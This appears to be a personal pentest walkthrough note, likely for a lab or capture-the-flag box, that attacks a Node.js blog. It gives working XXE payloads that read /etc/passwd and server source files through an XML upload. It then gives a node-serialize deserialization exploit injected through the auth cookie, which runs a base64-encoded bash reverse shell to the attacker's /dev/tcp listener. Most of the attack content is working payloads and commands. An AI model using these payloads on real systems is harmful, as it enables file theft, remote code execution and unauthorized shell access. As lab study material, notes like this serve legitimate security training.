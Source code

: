 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Quick file upload win
```XML - kali
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

### Burp to XXE
After logging in, go to file upload.

Create a test.txt with random characters.

echo "fdafasfsdf" > test.txt

Upload with Burp on.

Look in Burp for POST /articles/xml

Make a test.xml file with the template provided from Burp request:

test.xml
```xml - kali
<post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>
```

Upload the new test.xml file.

![[Pasted image 20220218093158.png]]

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#detect-the-vulnerability

Take the header lines from PayloadsAllTheThings
```xml - xxe
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
```

Combine it with our xml code, update the description with "&example;":

```xml - xxe
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
<post><title>Example Post</title><description>&example;</description><markdown>Example Markdown</markdown></post>
```

Verify we see "Doe" in the description field.

![[Pasted image 20220218093947.png]]

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe

Pay attention to the !ENTITY value "test", and replace accordingly with the description field.

```xml - xxe
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<post><title>Example Post</title><description>&test;</description><markdown>Example Markdown</markdown></post>
```

![[Pasted image 20220218095220.png]]

Great, now for node.js system, we need to find one of the following files:

/opt/blog/app.js
/opt/blog/server.js
/opt/blog/main.js

Replace the payload until one works.

Take the source code of server.js, make a new folder "src", with a server.js document inside, pasting the source.js code.

Look at line 6, requirement of node-serialize.

>const serialize = require('node-serialize')

Google "node-serialize exploit"

https://snyk.io/test/npm/node-serialize

```
'{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
```

While logged in, capture a request to "/" in Burp.

![[Pasted image 20220218101257.png]]

Decode the Cookie: value by highlighting it and pressing CTRL+Shift+U

Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}

EXAMPLE ls command:
```
Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8","rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"ls /\", function(error, stdout, stderr) { console.log(stdout) });}()"}

```

```bash - kali
echo "bash  -i >& /dev/tcp/$KALI/443  0>&1" | base64
```

YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo=

```bash - kali
echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo= | base64 -d | bash
```

Final should look like:

```
Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8","rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo= | base64 -d | bash\", function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Highlight and convert selection to URL encoded: 

Convert selection > URL > URL encode ALL characters

Request should look like:

![[Pasted image 20220218103639.png]]
